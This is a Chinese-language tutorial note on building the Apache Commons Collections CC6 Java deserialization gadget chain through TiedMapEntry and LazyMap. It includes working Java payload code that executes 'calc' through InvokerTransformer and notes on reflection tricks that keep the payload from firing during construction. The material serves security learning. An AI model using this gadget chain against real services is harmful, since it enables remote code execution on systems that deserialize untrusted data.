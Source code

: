 !!! tips "版本要求"

    JDK 7、8 均不受限制


由于对CC1链的修复，`AnnotationInvocationHandler`已不可用，因此我们需要找到新的方法触发LazyMap的get方法，get之后的利用流程与CC1-LazyMap相同。

这里我们找到了`org.apache.commons.collections.keyvalue.TiedMapEntry`类，在`hashCode`方法中调用了`getValue`方法，其中调用了`get`

```java
    public Object getValue() {
        return map.get(key);
    }
    public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }    
```

与URLDNS链类似，我们可以使用hashMap的`readObject`方法触发`hashCode`方法，进入`TiedMapEntry.hashCode`，利用链构造完成。

在编写过程中存在一些值得注意的问题：

若我们直接如下编写，会发现在`hashMap1.put`就弹出计算器，并在后续反序列化阶段报错，这是因为HashMap的put方法也会调用`hashCode(key)`（这一点在URLDNS链中也有提及），因此我们需要通过反射修改链的一部分使其在构造阶段不触发。

??? note "code"

    ```java
        public static void main(String[] args) throws Exception {  
            Transformer transformer[]= new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
            };
            ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
            HashMap hashMap = new HashMap();
            LazyMap lazyMap = (LazyMap) LazyMap.decorate(hashMap, chainedTransformer);
            TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "cc6");
            HashMap hashMap1 = new HashMap();
            hashMap1.put(tiedMapEntry, "cc6");

            serialize(hashMap1,"cc6.bin");
            unserialize("cc6.bin");
        }
    ```

这里常见的方法是先将LazyMap的Factor设为ConstantTransformor，构造完成后再反射修改回原值。

同时，还需要注意到LazyMap若想触发Transform方法，需要满足条件`map.containsKey(key) == false`，但同样的，hashMap的put时会调用LazyMap的get方法并向其中插入key，此后反序列化时无法触发，因此put后需要通过反射修改lazyMap的map使其为空。

```java title="LazyMap.get()"
    public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```
